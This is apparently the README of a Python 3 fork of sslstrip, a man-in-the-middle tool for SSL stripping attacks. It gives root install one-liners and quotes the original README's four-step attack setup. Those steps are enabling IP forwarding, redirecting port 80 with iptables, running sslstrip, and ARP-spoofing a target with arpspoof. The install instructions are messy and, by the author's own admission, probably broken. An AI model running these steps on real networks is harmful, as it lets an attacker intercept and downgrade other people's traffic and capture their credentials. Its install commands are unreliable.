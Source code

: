 ## This is a fork of sslstrip to python3

### Installing

#### Withouth Virtualenv

----------

Edit APT Repo
----------
```ShellSession
nano /etc/apt/sources.list
```
Add this repo
```ShellSession
deb http://ftp.debian.org/debian/ stretch main contrib non-free
```
#
Install as root:
```ShellSession
apt update -y && apt install git -y && cd /usr/share && git clone https://github.com/4k4xs4pH1r3/sslstrip.git && sudo aptitude install python-twisted-web python3 python3-pip git -y && cd sslstrip && python setup.py install && python3 -m pip install -r requirements.txt && pip install twisted carbon autobahn autobahn && sudo aptitude install python2.7-twisted-bin python-twisted-words python-twisted-runner python3-twisted-bin-dbg python-twisted-runner-dbg python-twisted python3-twisted python-twisted-names python-twisted-mail python-twisted-bin-dbg python-twisted-bin python-twisted-web python-twisted-conch python-twisted-news python-twisted-core python-twisted-libravatar twisted-doc python3-pytest-twisted python2.7-twisted-core python3-twisted-bin python2.7-twisted && pip install --upgrade --ignore-installed pyopenssl && pip3 install --upgrade --ignore-installed pyopenssl && python3 sslstrip.py -h
``` 



#### With Virtualenv

```
apt install python3 python3-pip git
git clone https://github.com/hallowf/sslstrip.git
cd sslstrip
python3 -m pip install virtualenv
virtualenv venv
source venv/bin/activate
pip install -r requirements.txt
python sslstrip.py -h
```

### I haven't looked at setup.py so it probably won't work

### Original README --->
sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping
attacks.

It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install,
	  or you can just run it out of the directory.  

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
	http://www.thoughtcrime.org/software/sslstrip/
